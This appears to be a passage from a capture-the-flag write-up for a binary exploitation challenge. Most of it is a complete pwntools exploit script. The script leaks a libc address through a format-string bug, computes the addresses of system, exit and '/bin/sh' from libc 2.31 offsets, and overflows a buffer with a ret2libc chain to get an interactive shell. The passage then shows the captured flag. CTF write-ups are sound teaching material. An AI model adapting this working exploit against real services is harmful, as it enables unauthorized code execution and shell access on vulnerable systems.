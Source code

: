 - We can chain multiple libc addresses together and carefully inject them with
  the overflow and then get a shell.

```python
from pwn import *
import struct


def f(a: int) -> bytes:
    return struct.pack('I', a)


# From objdump -d -Mintel
AddressOfPuts = 0x804c020
AddressOfPassedFirstHurdle = 0x80492e3
Name = ("AA%19$8x..%23$8x").encode() + f(AddressOfPuts)
Password = f(AddressOfPassedFirstHurdle)
Filename = ''

host = ''
port = ''


def main() -> None:
    p = remote(host, port, timeout=None)
    #  p = process(Filename)
    p.sendline(Name)
    p.sendline(Password)
    [print(p.recvline()) for _ in range(0, 2)]
    start_main = p.recv(20).decode()
    print(start_main)

    # Libc 2.31 // from libc.rip
    offsetForSh = 0x192352
    offsetForExit = 0x38170
    offsetForSystem = 0x45830
    offsetForstart_main = 0x1edf0
    libc_main_plus_x = 245

    start_main = "0x"+start_main.strip()[12:]
    addressOfLibc = (int(start_main, 16) - libc_main_plus_x) - \
        offsetForstart_main
    addressOfSh = addressOfLibc + offsetForSh
    addressOfExit = addressOfLibc + offsetForExit
    addressOfSystem = addressOfLibc + offsetForSystem

    payload = ("250382\x00" + 'A' * 21).encode() + \
        f(addressOfSystem) + f(addressOfExit) + f(addressOfSh) + f(0)
    p.sendline(payload)
    p.interactive()


main()
```

- We get a shell and we do `cat flag` and we get our flag.

p_ctf{Tw0_5t6p_v3rlflc4ti0n_i5_n0_m4tch_f0r_h4ck3r_5upr3m3}
